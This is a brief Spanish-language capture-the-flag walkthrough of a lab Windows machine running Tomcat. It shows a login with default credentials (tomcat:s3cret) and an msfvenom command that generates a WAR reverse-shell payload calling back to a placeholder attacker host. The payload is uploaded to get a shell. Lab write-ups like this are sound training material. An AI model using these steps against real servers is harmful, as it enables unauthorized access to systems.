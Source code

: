10.10.10.95
Windows
Port: 8080

- Vamos a ver su pagina web.
- Tenemos un Tomcat, por lo tanto existe un login para poder entrar.
![](../../Imagenes/Pasted%20image%2020250322165238.png)
- Sabemos que por lo general cuando no se configura bien, Tomcat viene con usuarios predefinidos, vamos a probar cada usuario
- Las credenciales eran, ==tomcat:s3cret==.
![](../../Imagenes/Pasted%20image%2020250317175955.png)
- Tenemos como subir un archivo para hacer una reverse.
- Vamos a hacer un payload con msfvenom.
```
msfvenom -p java/shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```

![](../Imagenes/Pasted%20image%2020250317180229.png)

- Vamos a subirlo.

![](../Imagenes/Pasted%20image%2020250317180320.png)

- Ya esta subido, vamos a hacer la reverse y recordar hacer otra reverse estando dentro para tener una conexión mas estable.

![](../Imagenes/Pasted%20image%2020250317180523.png)

- Ya estamos dentro.
- Buscamos y encontraremos las flags de usuario y root.